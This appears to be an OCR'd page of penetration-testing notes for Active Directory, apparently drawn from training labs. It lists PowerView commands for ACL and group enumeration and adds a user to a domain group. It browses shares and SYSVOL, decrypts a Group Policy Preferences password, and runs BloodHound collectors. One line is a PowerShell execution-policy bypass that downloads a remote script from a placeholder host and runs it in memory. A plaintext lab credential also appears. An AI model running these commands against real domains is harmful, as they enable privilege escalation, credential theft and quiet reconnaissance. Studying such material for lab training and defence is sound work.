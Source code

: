 ```
Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-553

Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights

"S-1-5-21-1987370270-658905905-1781884369-512","S-1-5-21-1987370270-658905905-1781884369-1104","S-1-5-32-548","S-1-5-18","S-1-5-21-1987370270-658905905-1781884369-519" | Convert-SidToName

net group "Management Department" stephanie /add /domain
Get-NetGroup "Management Department" | select member
net group "Management Department" stephanie /del /domain
Get-NetGroup "Management Department" | select member
```

### Manual Domain Shares

```


Find-DomainShare
ls \\dc1.corp.com\ADMIN$\
ls \\dc1.corp.com\sysvol\corp.com\
ls \\dc1.corp.com\sysvol\corp.com\Policies\
cat \\dc1.corp.com\sysvol\corp.com\Policies\oldpolicy\old-policy-backup.xml
gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
ls \\FILES04\docshare
ls "\\FILES04\Important Files"
cat "\\FILES04\Important Files\proof.txt"
ls \\FILES04\docshare\docs\do-not-share
cat \\FILES04\docshare\docs\do-not-share\start-email.txt

```

### BloodHound

#### Ingestors
```
# Standard local execution
./SharpHound.exe --CollectionMethods All,GPOLocalGroup
Invoke-BloodHound -CollectionMethod All,GPOLocalGroup
Invoke-BloodHound -CollectionMethod All -CompressData -RemoveCSV
Invoke-BloodHound -CollectionMethod LoggedOn

# Specify different domain and run in stealth mode and collect only RDP data
Invoke-BloodHound --d <Domain> --Stealth --CollectionMethod RDP

# Run in context of different user
runas.exe /netonly /user:domain\user 'powershell.exe -nop -exec bypass'

# Download and execute in memory
powershell.exe -exec Bypass -C "IEX(New-Object Net.Webclient).DownloadString('http://<IP>:/SharpHound.ps1');Invoke-BloodHound"

# Metasploit
use post/windows/gather/bloodhound       


# Run from Kali Box
bloodhound-python -c ALL -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -d support.htb -ns 10.10.11.174
```
